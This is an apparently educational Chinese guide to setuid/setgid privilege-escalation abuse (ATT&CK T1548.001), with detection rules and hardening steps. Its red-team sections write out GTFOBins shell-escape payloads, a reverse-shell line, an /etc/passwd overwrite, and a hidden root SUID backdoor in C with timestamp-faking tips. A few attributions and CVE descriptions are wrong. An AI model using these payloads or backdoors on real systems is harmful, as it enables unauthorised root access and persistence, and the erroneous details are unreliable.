


# Setuid 和 Setgid 特权位滥用 (T1548.001)

## 一句话通俗理解

> **利用 Linux/macOS 文件系统中的 SUID/SGID 特权位，让普通用户运行的程序"自动披上"文件属主（往往是 root）的权限外衣**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 滥用 Linux/macOS 文件的 SUID（Set-User-ID）和 SGID（Set-Group-ID）权限位，使程序以文件属主/属组的身份执行而非执行者的身份 |
| 为什么危险？ | 一个属主是 root 且带 SUID 位的程序，被任何普通用户执行时都拥有 root 权限——这是 Linux 提权最常见、最高效的途径之一，无需任何内核漏洞 |
| 谁需要关心？ | Linux/macOS 系统管理员、容器安全工程师、SOC 分析师、CISO（合规与基线管理） |
| 你的第一步防御 | 定期扫描全盘 SUID/SGID 文件并建立基线，监控任何新增或非标准路径下的 SUID 二进制 |
| 如果只做一件事 | 在 `/etc/fstab` 中为 `/tmp`、`/var/tmp`、`/dev/shm` 等用户可写挂载点添加 `nosuid` 选项 |

## 难度等级

⭐⭐ 中级 - 需要一定的技术基础和经验

**评级理由：**
- **概念门槛低**：SUID/SGID 是 POSIX 文件权限的基础知识，理解门槛低于内核漏洞利用
- **实战门槛中等**：需要熟悉 Linux 文件权限、`find` 命令、GTFOBins 项目中的利用手法，并能识别可被滥用的 SUID 二进制
- **检测规避难**：要在防守方建立了完整 auditd + 基线对比的环境中无声地利用 SUID 提权，需要更高级的技巧（如清理审计日志、利用合法 SUID 程序的合法功能）

## 前置知识检查

**读这个文件需要什么？**

- [ ] Linux 文件权限模型（rwx 三组、属主/属组/其他）
- [ ] 进程凭证概念（Real UID/GID vs Effective UID/GID vs Saved Set-User-ID）
- [ ] `chmod`、`chown`、`find`、`ls -l` 等基础命令的使用
- [ ] POSIX 进程创建机制（fork/exec 时凭证的继承规则）
- [ ] GTFOBins 项目（https://gtfobins.github.io）对 SUID 利用方式的分类

## 技术描述

**Setuid 和 Setgid 特权位滥用**（T1548.001）是 **滥用权限提升控制机制**（T1548）的一个具体变体，属于 **权限提升** 阶段的攻击技术。MITRE ATT&CK v19.1 将其平台限定为 **Linux 和 macOS**（不适用于 Windows，Windows 没有等价机制）。

### 具体怎么理解？

在 Linux/macOS 中，每个文件都有一组 12 位的权限标志位（9 位 rwx + 3 位特殊位）。其中 SUID（Set-User-ID，权限码 4000）和 SGID（Set-Group-ID，权限码 2000）是两个特殊的"提权位"：

- **SUID 位（4000）**：当设置在可执行文件上时，该文件被执行后，进程的 **Effective UID（EUID）** 会被设置为文件属主的 UID，而非执行者的 UID
- **SGID 位（2000）**：同理，进程的 **Effective GID（EGID）** 会被设置为文件属组的 GID

最经典的例子是 `/usr/bin/passwd`：这个二进制属于 root，设置了 SUID 位。任何普通用户执行 `passwd` 修改自己密码时，进程实际上以 root 身份运行，才能写入 `/etc/shadow` 文件（仅 root 可读）。

```bash
$ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 68208 Jul 15  2021 /usr/bin/passwd
#  注意 's'，表示属主的执行位被 SUID 位取代
```

### 攻击者如何滥用？

攻击者有两条主要利用路径：

**路径 A：在自己植入的恶意二进制上设置 SUID 位**

任何用户都可以对自己拥有的文件执行 `chmod u+s`，无需 root 权限。攻击者只需：

1. 编译一个能执行任意命令的 C 程序（如 `setuid(0); system("/bin/sh");`）
2. 将该程序放置在用户可写目录（如 `/tmp`、家目录）
3. 执行 `chmod 4777 ./backdoor` 设置 SUID 位
4. 等待 root 用户（或通过其他方式触发的 root 进程）执行该程序——程序立即获得 root 权限

但更常见的场景是：攻击者已经通过其他漏洞获得了 root 一次性权限，通过植入 SUID 后门来 **持久化** root 访问。

**路径 B：查找并利用系统中已有的"危险 SUID 二进制"**

Linux 系统中默认存在大量带 SUID 位的二进制（如 `sudo`、`su`、`mount`、`passwd`、`chsh`、`newgrp` 等）。此外，运维人员常安装的 `nmap`、`vim`、`find`、`bash`、`python`、`perl`、`env`、`cp`、`mv` 等也可能被错误地设置 SUID 位。这些程序中很多自带"逃逸到 shell"的功能，被 GTFOBins 项目归类为可被 SUID 滥用。

例如：
```bash
# 查找所有 SUID 二进制
find / -perm -4000 -type f 2>/dev/null

# 利用 SUID 的 find 执行 shell
find . -exec /bin/sh -p \; -quit

# 利用 SUID 的 vim 执行 shell
vim -c ':!sh'

# 利用 SUID 的 nmap 旧版本进入交互式 shell
nmap --interactive
nmap> !sh

# 利用 SUID 的 bash（注意必须加 -p 才能保留 SUID 效果，否则 bash 出于安全会丢弃 EUID）
bash -p
```

### 为什么有效？

1. **设计本质使然**：SUID 是 POSIX 系统的合法机制，无法在不破坏系统功能（如 `passwd` 命令）的前提下完全禁用
2. **配置错误普遍**：管理员常出于便利性给 `nmap`、`vim` 等工具设置 SUID 位以便低权限用户使用，无意中留下提权后门
3. **检测盲区**：SUID 文件执行本身不产生告警，只有专门的 auditd 规则或文件完整性监控（FIM）才能发现异常
4. **持久化能力强**：一旦植入 SUID 后门，即使系统补丁打满、密码全部更改，攻击者仍可随时提权
5. **跨容器利用**：容器内的 SUID 二进制可被用于容器逃逸（如 CVE-2019-5736 之前的 runc 利用思路），或作为容器内提权的跳板

**过渡段：** 不要误以为"权限提升就是利用内核漏洞"——SUID/SGID 滥用是配置层面的提权，比内核漏洞利用门槛低得多、成功率却高得多。Linux 提权检查脚本（如 LinPEAS、LinEnum）的第一步永远是扫描 SUID 文件，因为这是性价比最高的提权路径。

## 真型场景

攻击者在 **权限提升** 阶段使用 Setuid 和 Setgid 技术，以下是典型的攻击步骤：



**步骤详解：**

1. **低权限立足**：攻击者通过 Web 漏洞（如 RCE）、钓鱼、弱密码等获得 Linux/macOS 系统上的低权限账户（如 `www-data`、`nobody`、普通员工账户）
2. **SUID 枚举**：执行 `find / -perm -4000 -type f 2>/dev/null` 列出全盘 SUID 文件，重点对比系统默认清单与实际清单的差异
3. **可利用性分析**：将枚举结果对照 GTFOBins（https://gtfobins.github.io/#+suid）查询每个二进制是否在 SUID 上下文下可执行任意命令
4. **提权执行**：使用对应的利用 payload（如 `find . -exec /bin/sh -p \; -quit`）获得 EUID=0 的交互式 Shell
5. **持久化（可选）**：编译并植入自定义 SUID 后门，确保即使原提权路径被修复仍可重新获得 root

## 攻击流程

```
低权限立足 → 全盘 SUID 枚举 → 对照 GTFOBins 找可利用二进制 → 用合法功能触发 shell → 获得 EUID=0 → 植入 SUID 后门持久化
```



**步骤详解：**

1. **低权限立足**
   - 通俗描述：攻击者已通过 Webshell、弱密码、钓鱼等手段在目标 Linux 系统上获得了普通用户身份的 Shell
   - 技术细节：常见低权限账户包括 `www-data`（Apache/Nginx）、`nginx`、`mysql`、`nobody`、容器内的 `app` 用户。这些账户通常 UID ≥ 1000，无 sudo 权限，无法直接修改 `/etc/passwd` 或访问 root 家目录
   - 常用工具：反弹 Shell（bash -i >& /dev/tcp/.../4444 0>&1）、Webshell（如 PHP meterpreter）

2. **全盘 SUID 枚举**
   - 通俗描述：扫描整个文件系统，列出所有带 SUID 位的可执行文件
   - 技术细节：使用 `find / -perm -4000 -type f 2>/dev/null`（旧语法 `+4000`，新语法 `/4000`，推荐 `-4000` 兼容性最好）；同时枚举 SGID：`find / -perm -2000 -type f 2>/dev/null`；自动化工具 LinPEAS、LinEnum、linux-smart-enumeration 会自动完成对比
   - 常用工具：find、LinPEAS、LinEnum、unix-privesc-check

3. **对照 GTFOBins 识别可利用二进制**
   - 通俗描述：把枚举出的 SUID 文件清单与 GTFOBins 数据库对照，找出哪些程序在 SUID 上下文下能执行任意命令
   - 技术细节：GTFOBins 将可被滥用的二进制按"功能"分类（SUID、sudo、cap等）。重点检查非标准 SUID 二进制，如运维安装的 `nmap`、`vim`、`find`、`bash`、`python3`、`perl`、`ruby`、`env`、`cp`、`mv`、`tar`、`zip`、`awk`、`less`、`more`、`man`、`scp`、`wget`、`curl` 等
   - 常用工具：GTFOBins 网站、PSPrivescFind 脚本

4. **触发 SUID 程序的合法功能**
   - 通俗描述：用 SUID 程序自带的"合法功能"启动一个 Shell 或执行任意命令
   - 技术细节：典型利用方式：
     - `find . -exec /bin/sh -p \; -quit`（注意 `-p` 让 sh 保留 EUID）
     - `vim -c ':!sh'` 或 `vim` 中按 `:!:sh`
     - `nmap --interactive` 然后 `!sh`
     - `bash -p`（`-p` 关键！不加则 bash 出于安全会主动丢弃 SUID 提升）
     - `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
     - `env /bin/sh -p`
     - `cp /etc/passwd /tmp/passwd.bak && echo 'root2:...' >> /tmp/passwd.bak && cp /tmp/passwd.bak /etc/passwd`（覆盖 /etc/passwd）
   - 常用工具：SUID 利用 payload（来自 GTFOBins）、Metasploit 的 `exploit/unix/local/suid_*` 模块

5. **获得 EUID=0 Shell**
   - 通俗描述：成功触发后，获得一个 EUID=0 的交互式 Shell，可读写绝大多数 root 拥有的文件
   - 技术细节：注意区分 Real UID（RUID）和 Effective UID（EUID）。通过 SUID 提权后通常 RUID 仍为原用户、EUID=0。某些程序（如 sudo）会检查 RUID，因此可能仍无法运行。完整提权可用 `python3 -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'` 同时设置 RUID 和 EUID
   - 常用工具：bash、sh、python3、perl

6. **植入 SUID 后门持久化**
   - 通俗描述：在系统中植入一个属主为 root、带 SUID 位的后门程序，方便后续随时提权
   - 技术细节：编写 C 程序 `suid_backdoor.c`：
     ```c
     #include <unistd.h>
     #include <stdlib.h>
     int main() {
         setuid(0);
         setgid(0);
         system("/bin/bash");
         return 0;
     }
     ```
     编译并设置权限：`gcc -o /usr/local/bin/.backdoor suid_backdoor.c && chmod 4777 /usr/local/bin/.backdoor && chown root:root /usr/local/bin/.backdoor`（注意文件名以 `.` 开头隐藏）
   - 常用工具：gcc、cc、tcc

## 真实案例

### 案例1：OSX/Keydnap 恶意软件（2016）

- **时间**：2016 年 7 月
- **目标**：macOS 用户（通过恶意附件传播）
- **攻击组织**：未归因（疑似针对记者和活动人士）
- **手法**：ESET 安全研究员 Marc-Etienne M.Léveille 披露，OSX/Keydnap 恶意软件在感染 macOS 系统后，会向自身的恶意二进制添加 setuid 标志位，以便未来任何用户执行该二进制时都能轻松获得 elevated 权限。这是 MITRE ATT&CK 官方引用的 T1548.001 经典案例，展示了 SUID 位如何被恶意软件用作持久化提权机制
- **影响**：攻击者获得了 macOS 上的 root 级别持久化访问，可随时以高权限激活并窃取用户凭证（Keychain 中存储的密码）
- **参考链接**：[WeLiveSecurity - New OSX/Keydnap malware is hungry for credentials](https://www.welivesecurity.com/2016/07/06/new-osxkeydnap-malware-hungry-credentials/)

### 案例2：Exaramel for Linux（Sandworm APT 组织，2021）

- **时间**：2021 年 1 月（ANSSI 披露）
- **目标**：法国 Centreon 系统监控平台用户（能源、电信、政府行业）
- **攻击组织**：Sandworm Team（俄罗斯 GRU 26165 部队，APT44）
- **手法**：ANSSI 在分析 Sandworm 针对法国组织的入侵活动时发现，Exaramel for Linux 后门内置了一个特殊的 SUID 二进制，用于在已获取低权限访问的情况下，通过 setuid 机制执行高权限命令。这是国家级 APT 组织将 SUID 滥用作为实战提权路径的明确证据
- **影响**：Sandworm 在多个法国组织内潜伏多年，窃取了大量敏感数据；该事件后法国 CERT 发布 CERTFR-2021-CTI-005 警报，要求关键基础设施加强 SUID 文件监控
- **参考链接**：[ANSSI - SANDWORM INTRUSION SET CAMPAIGN TARGETING CENTREON SYSTEMS](https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf)

### 案例3：CTF 与红队实战中的 SUID 提权

- **时间**：2020-2025 年持续出现
- **目标**：Hack The Box、TryHackMe、VulnHub 等平台上的 Linux 提权靶机
- **攻击组织**：红队/安全研究人员
- **手法**：在 OSCP 考试、HTB 靶机中，SUID 提权是最常见的提权路径之一。典型场景包括：管理员为方便 `nmap` 使用 ICMP 扫描而设置 SUID；将 `vim` 设置 SUID 以便低权限用户编辑系统配置；备份脚本被设置 SUID 后被攻击者通过 GTFOBins 利用
- **影响**：作为教学案例，向安全社区普及了 SUID 滥用的危害；推动 GTFOBins 项目成为 Linux 提权必备工具
- **参考链接**：[GTFOBins - SUID](https://gtfobins.github.io/#+suid)、[HackTricks - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **优先 SUID 后内核漏洞**：在获得低权限 Shell 后，应优先枚举 SUID 文件而非盲目尝试内核提权（如 CVE-2021-3156、CVE-2022-0847）。SUID 提权更隐蔽（不触发内核 panic）、成功率更高、对系统稳定性影响最小
2. **关注非标准 SUID**：系统默认 SUID 文件清单（`/usr/bin/passwd`、`/usr/bin/su`、`/usr/bin/sudo`、`/usr/bin/chsh`、`/usr/bin/newgrp`、`/usr/bin/chfn`、`/usr/bin/gpasswd`、`/usr/bin/mount`、`/usr/bin/umount`、`/usr/lib/policykit-1/polkit-agent-helper-1`、`/usr/lib/openssh/ssh-keysign`、`/usr/lib/eject/dmcrypt-get-device`）已被审计且无法直接利用。重点找：运维安装的第三方 SUID 程序、自定义脚本被设置 SUID、`/opt`、`/usr/local/bin`、`/home` 下的 SUID 文件
3. **组合 cap 与 SUID**：Linux capabilities（如 cap_setuid）与 SUID 可组合利用。`getcap -r / 2>/dev/null` 查找带 cap_setuid 的程序，可用 `python3 -c 'import ctypes; ctypes.CDLL("libc.so.6").setuid(0); import os; os.system("/bin/sh")'` 提权
4. **隐蔽性考虑**：植入 SUID 后门时选择不在常用路径（避免 `/tmp`、`/usr/bin`），文件名以 `.` 开头隐藏，并修改文件时间戳（`touch -r /etc/passwd /usr/local/bin/.backdoor`）使其看起来像系统文件
5. **bash -p 是关键**：通过 SUID 程序获得 shell 后，必须使用 `bash -p` 或 `sh -p` 才能保留 EUID=0；不加 `-p` 时 bash 出于安全考虑会主动将 EUID 重置为 RUID
6. **结合 PATH 劫持**：如果发现某个 SUID 脚本（如 SUID 的 bash 脚本，虽然罕见且不安全）调用了不带绝对路径的命令，可通过 PATH 劫持提权

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| LinPEAS | 自动化 Linux 提权枚举（含 SUID 扫描） | Linux | [PEASS-ng](https://github.com/carlospolop/PEASS-ng) |
| LinEnum | Linux 提权枚举经典脚本 | Linux | [LinEnum](https://github.com/rebootuser/LinEnum) |
| linux-smart-enumeration | 精简版枚举工具 | Linux | [lse](https://github.com/diego-treitos/linux-smart-enumeration) |
| GTFOBins | Unix 二进制滥用数据库 | 全平台 | [GTFOBins](https://gtfobins.github.io) |
| Metasploit | 含多个 SUID 提权模块 | Linux | [Metasploit](https://www.metasploit.com/) |
| pspy | 无 root 权限监控进程（发现 root 触发的 SUID 程序） | Linux | [pspy](https://github.com/dominicbreuker/pspy) |
| auditd | 系统审计（防御方工具，红队可分析其规则以规避） | Linux | [auditd](https://man7.org/linux/man-pages/man8/auditd.8.html) |

### 注意事项

- 在授权的测试环境中使用这些技术，保留书面授权
- 提权后立即检查 `id`、`whoami`、`uname -a`、`sudo -l` 等命令确认实际权限
- 注意操作安全（OPSEC）：避免在 `/var/log/auth.log`、`/var/log/audit/audit.log` 留下过多痕迹
- 切勿在客户生产环境中植入持久 SUID 后门而不清理——这是常见的合同违约点

## 蓝队视角

### 检测要点

1. **SUID 文件基线对比**：建立全盘 SUID/SGID 文件清单基线，定期扫描对比，发现新增 SUID 文件立即告警
2. **chmod 设置 SUID 位监控**：监控 auditd 中 `chmod` 命令设置 4000/2000 权限位的事件，特别是对非 root 用户家目录、`/tmp`、`/var/tmp`、`/dev/shm`、`/opt` 等路径的操作
3. **EUID ≠ UID 进程监控**：监控系统进程中 EUID 不等于 RUID 的进程（`ps -e -o uid,euid,pid,cmd | awk '$1!=$2'`），这些通常都是 SUID 程序的运行实例
4. **GTFOBins 二进制异常调用**：监控 `nmap`、`vim`、`find`、`bash`、`python`、`perl`、`env`、`cp` 等 GTFOBins 清单中的二进制被非特权用户执行的事件，特别是从非标准路径或带异常参数
5. **审计日志清理检测**：监控 `/var/log/audit/audit.log` 被截断、`auditctl -D`（清空规则）、`service auditd stop` 等试图掩盖 SUID 滥用痕迹的操作

### 监控建议

- 部署 auditd 规则监控所有 `chmod` 系统调用，重点关注设置 4000/2000 位的操作
- 部署文件完整性监控（FIM）工具如 AIDE、Tripwire、Wazuh FIM，对 `/usr/bin`、`/usr/sbin`、`/usr/local/bin`、`/opt`、`/etc` 目录建立基线
- 配置 SIEM 规则关联分析：同一用户在短时间内枚举 SUID（`find / -perm -4000`）+ 执行 GTFOBins 二进制 + 获得特权 Shell 的完整链条
- 在容器运行时（如 Falco、Tracee、Tetragon）中部署规则：容器内出现 SUID 文件、容器内进程 EUID=0 但启动用户非 root 时立即告警
- 定期审计 `/etc/fstab`，确保 `/tmp`、`/var/tmp`、`/dev/shm`、`/home` 等用户可写挂载点都设置了 `nosuid` 选项

## 避坑指南

**红队新手常见错误：**

1. **盲目执行内核 exploit**：一上来就尝试 CVE-2021-3156、CVE-2022-0847 等内核提权，导致系统崩溃（kernel panic）。正确顺序是：先枚举 SUID/SGID → 检查 sudo 错误配置 → 检查 cron 任务 → 检查 PATH 劫持 → 最后才考虑内核 exploit
2. **忘记 `bash -p`**：通过 SUID 程序获得 shell 后，直接执行 `bash` 而非 `bash -p`，结果 EUID 被重置为 RUID，提权失败。**所有 SUID 提权后启动 shell 都必须加 `-p`**
3. **忽略 SGID 文件**：只扫描 `-perm -4000`（SUID）而忽略 `-perm -2000`（SGID）。SGID 文件同样可被利用，且某些环境下 SGID root 也足够危险
4. **在新版本 find 中使用 `+4000` 语法**：GNU find 4.5.12+ 弃用 `+4000` 语法，应使用 `-4000`（mode 完全匹配）或 `/4000`（任意位匹配）。错误语法会导致扫描结果为空，误以为系统无 SUID 文件
5. **忽视 macOS**：macOS 也有 SUID 机制，`/usr/bin/sudo`、`/usr/bin/passwd` 等都设置了 SUID。Keydnap 案例证明 macOS 同样面临 T1548.001 风险

**防御者易忽略点：**

1. **第三方软件 SUID 默认设置**：某些软件包（如 Nmap、Docker 旧版本、Wireshark 的 dumpcap）安装时会自动设置 SUID 位。运维人员常不知情，未在基线中纳入管理
2. **容器内 SUID 文件**：默认 Docker 容器中仍有大量 SUID 文件（继承自基础镜像），即使容器以非 root 用户运行，攻击者仍可通过容器内 SUID 提权至容器内 root，进而尝试容器逃逸
3. **`nosuid` 不是万能**：`nosuid` 挂载选项只对 **该挂载点内的文件** 生效，不影响跨文件系统的 SUID 调用。例如 `/tmp` 设了 nosuid，但 `/usr/local/bin/.backdoor` 仍可正常提权
4. **忽视 rootkit 隐藏的 SUID 后门**：高级攻击者会通过 LD_PRELOAD 或内核 rootkit 隐藏 SUID 后门文件，使其不出现在 `find` 结果中。需要从 LiveCD/救援模式扫描或对比 `/proc` 中的实际进程凭证

## 检测建议

### 检测思路

检测 Setuid 和 Setgid 滥用的关键是 **三层联动**：发现 SUID 文件创建 → 监控 SUID 二进制执行 → 关联提权行为。以下是三个层面的具体检测方法。

### 网络层检测

SUID 滥用本身是主机层行为，但提权成功后通常会触发网络外联（反弹 shell、C2 通信、数据外传）。可监控：

```bash
# 监控由 SUID 程序发起的异常出站连接（需配合 auditd + 网络流量分析）
# 检测由 /tmp、/dev/shm、用户家目录下 SUID 二进制发起的网络连接
auditctl -a always,exit -F arch=b64 -S socket,connect -F auid>=1000 -k suid_net_connect

# Falco 规则示例：检测从非标准路径 SUID 程序发起的网络连接
- rule: SUID Binary Network Connection from Non-Standard Path
  desc: Detect SUID binary from /tmp or /home initiating network connection
  condition: >
    evt.type in (connect, socket) and
    proc.vpid != 1 and
    (proc.exepath startswith /tmp or proc.exepath startswith /home or 
     proc.exepath startswith /dev/shm or proc.exepath startswith /var/tmp)
  output: >
    SUID binary network connection from non-standard path
    (user=%user.name exepath=%proc.exepath cmdline=%proc.cmdtype)
  priority: WARNING
```

### 主机层检测

**Linux auditd 规则**：

```bash
# 1. 监控 chmod 设置 SUID/SGID 位的操作
auditctl -w /bin/chmod -p x -k chmod_call
auditctl -w /usr/bin/chmod -p x -k chmod_call
# 更精确：监控 setxattr 系统调用设置 SUID
auditctl -a always,exit -F arch=b64 -S chmod,fchmod,fchmodat -k suid_set

# 2. 监控非特权用户执行 SUID 二进制
auditctl -a always,exit -F arch=b64 -S execve -F auid>=1000 -F uid=0 -k suid_exec_by_user

# 3. 监控 GTFOBins 中的关键二进制异常调用
auditctl -w /usr/bin/nmap -p x -k nmap_exec
auditctl -w /usr/bin/vim -p x -k vim_exec
auditctl -w /usr/bin/find -p x -k find_exec
auditctl -w /bin/bash -p x -k bash_exec

# 4. 监控 /etc/passwd 文件修改（SUID cp 提权的常见目标）
auditctl -w /etc/passwd -p wa -k passwd_modify
auditctl -w /etc/shadow -p wa -k shadow_modify
auditctl -w /etc/sudoers -p wa -k sudoers_modify
```

**定期 SUID 扫描脚本**（建议加入 cron 每日执行）：

```bash
#!/bin/bash
# suid_baseline_check.sh - 每日扫描 SUID 文件并与基线对比
BASELINE="/etc/security/suid_baseline.txt"
CURRENT=$(mktemp)
find / -perm -4000 -type f 2>/dev/null | sort > "$CURRENT"

if [ -f "$BASELINE" ]; then
    DIFF=$(diff "$BASELINE" "$CURRENT")
    if [ -n "$DIFF" ]; then
        logger -p auth.warning "SUID file change detected: $DIFF"
        # 触发告警（可接入 SIEM）
        echo "[ALERT] SUID file change detected at $(date):" >> /var/log/suid_monitor.log
        echo "$DIFF" >> /var/log/suid_monitor.log
    fi
fi

# 同时检测 SGID
find / -perm -2000 -type f 2>/dev/null | sort > /tmp/sgid_current.txt
diff /etc/security/sgid_baseline.txt /tmp/sgid_current.txt >> /var/log/suid_monitor.log 2>&1

rm -f "$CURRENT" /tmp/sgid_current.txt
```

**用人话说：** SUID（Set-User-ID）是 Linux 文件系统中的一个特殊权限位。当一个可执行文件设置了 SUID 位时，无论谁执行这个文件，进程都会以"文件属主"的身份运行。比如 `/usr/bin/passwd` 这个程序属主是 root 且设置了 SUID 位，所以普通用户执行 `passwd` 时实际上以 root 身份在运行（这样才能修改只允许 root 读写的 `/etc/shadow` 文件）。攻击者有两种利用方式：① 把自己植入的后门程序设置 SUID 位并等 root 执行；② 找系统中已经设置 SUID 位的"危险程序"（如 nmap、vim、find 等可执行 shell 命令的程序）并利用其合法功能提权。检测关键是建立 SUID 文件清单基线，监控任何新增 SUID 文件。

**Sigma 规则示例**：

```yaml
title: Linux SUID 位设置监控
status: experimental
description: 检测通过 chmod 设置 SUID/SGID 位的操作（T1548.001）
references:
    - https://attack.mitre.org/techniques/T1548/001/
    - https://gtfobins.github.io/#+suid
logsource:
    product: linux
    service: auditd
detection:
    selection_chmod_suid:
        type: SYSCALL
        syscall: chmod|fchmod|fchmodat
        mode|contains: '4000'  # SUID bit
    selection_chmod_sgid:
        type: SYSCALL
        syscall: chmod|fchmod|fchmodat
        mode|contains: '2000'  # SGID bit
    filter_legitimate:
        exe:
            - '/usr/bin/dpkg'
            - '/usr/bin/rpm'
            - '/usr/bin/apt'
            - '/usr/bin/yum'
    condition: (selection_chmod_suid or selection_chmod_sgid) and not filter_legitimate
fields:
    - auid
    - uid
    - exe
    - file
    - mode
falsepositives:
    - 包管理器安装软件时设置 SUID（dpkg、rpm）
    - 管理员手动修复权限
level: medium
tags:
    - attack.privilege_escalation
    - attack.t1548.001
```

### 应用层检测

**Falco 规则**（容器与主机通用）：

```yaml
- rule: SUID Binary Created in User Writable Path
  desc: 检测在用户可写目录（/tmp、/dev/shm、/home）创建 SUID 文件
  condition: >
    evt.type in (chmod, fchmod, fchmodat) and
    (evt.arg.mode contains "S_ISUID" or evt.arg.mode contains "S_ISGID") and
    (fd.name startswith /tmp or fd.name startswith /dev/shm or 
     fd.name startswith /home or fd.name startswith /var/tmp or
     fd.name startswith /opt)
  output: >
    SUID/SGID bit set on file in user-writable path
    (user=%user.name uid=%user.uid file=%fd.name mode=%evt.arg.mode)
  priority: CRITICAL
  tags:
    - mitre_privilege_escalation
    - mitre_t1548_001

- rule: EUID Mismatch Process Started
  desc: 检测 EUID 与 RUID 不一致的进程启动（典型 SUID 利用特征）
  condition: >
    evt.type=execve and
    proc.euid=0 and
    proc.uid!=0 and
    proc.uid>=1000
  output: >
    Process started with EUID=0 but UID=%proc.uid
    (user=%user.name exepath=%proc.exepath cmdline=%proc.cmdline)
  priority: WARNING
  tags:
    - mitre_privilege_escalation
    - mitre_t1548_001
```

**SIEM 查询（Splunk SPL 示例）**：

```spl
index=linux_auditd tag=chmod
| where match(mode, "4[0-9]{3}") OR match(mode, "2[0-9]{3}")
| stats count by host, auid, exe, file, mode, _time
| where auid >= 1000 AND auid != 4294967295  # 排除未登录用户(auid=-1)
| join host, file [search index=linux_baseline tag=suid_file | rename file as suid_file]
| where file != suid_file  # 与基线对比，仅显示新增
```

## 缓解措施

### 优先级1：关键措施

**1. 限制 SUID 文件清单**：移除非必要的 SUID/SGID 位，将系统中带 SUID 位的二进制数量压到最低

```bash
# 审计当前 SUID 文件清单
find / -perm -4000 -type f 2>/dev/null

# 移除指定文件的 SUID 位（如发现 nmap 被设置 SUID）
chmod u-s /usr/bin/nmap

# 移除 SGID 位
chmod g-s /path/to/file

# 一键移除非标准 SUID（保留 /usr/bin/passwd、su、sudo 等系统默认）
for suid_file in $(find / -perm -4000 -type f 2>/dev/null); do
    case "$suid_file" in
        /usr/bin/passwd|/usr/bin/su|/usr/bin/sudo|/usr/bin/chsh|/usr/bin/newgrp|/usr/bin/chfn|/usr/bin/gpasswd|/usr/bin/mount|/usr/bin/umount|/usr/lib/openssh/ssh-keysign)
            echo "[KEEP] $suid_file"
            ;;
        *)
            echo "[REMOVE SUID] $suid_file"
            chmod u-s "$suid_file"
            ;;
    esac
done
```

**2. 在挂载点设置 nosuid 选项**：对所有用户可写挂载点添加 `nosuid` 选项，使该挂载点内的文件即使设置了 SUID 位也无效

```bash
# 编辑 /etc/fstab，为以下挂载点添加 nosuid
# /tmp、/var/tmp、/dev/shm、/home、/opt、/mnt/usb
tmpfs /tmp        tmpfs defaults,nosuid,nodev,noexec 0 0
tmpfs /dev/shm    tmpfs defaults,nosuid,nodev,noexec 0 0
# 重新挂载生效
mount -o remount /tmp
mount -o remount /dev/shm
```

**3. 容器内禁用 SUID**：在 Docker 运行时添加 `--security-opt=no-new-privileges` 选项

```bash
# 运行容器时禁止 SUID 提权
docker run --security-opt=no-new-privileges:true my-image

# 或在 docker-compose.yml 中配置
# security_opt:
#   - no-new-privileges:true

# Kubernetes Pod 安全上下文
# spec.securityContext.runAsNonRoot: true
# spec.containers[].securityContext.allowPrivilegeEscalation: false
```

### 优先级2：重要措施

**部署审计与文件完整性监控**：

```bash
# 安装并配置 AIDE（高级入侵检测环境）
apt install aide
aideinit
cp /var/lib/aide/aide.db.new /var/lib/aide/aide.db

# 每日扫描对比
echo "0 5 * * * /usr/bin/aide --check | mail -s 'AIDE Report' secops@company.com" | crontab -

# 配置 auditd 监控 SUID 设置操作（参见"检测建议"章节）
```

**加强监控**：部署 EDR/SIEM 系统，重点监控 GTFOBins 清单中二进制的异常调用、EUID≠UID 进程的创建、`/etc/passwd` 与 `/etc/shadow` 的修改

### 优先级3：建议措施

**安全意识培训与最小权限原则**：
- 培训系统管理员：**永远不要** 为方便而给 `nmap`、`vim`、`bash`、`python` 等通用工具设置 SUID 位
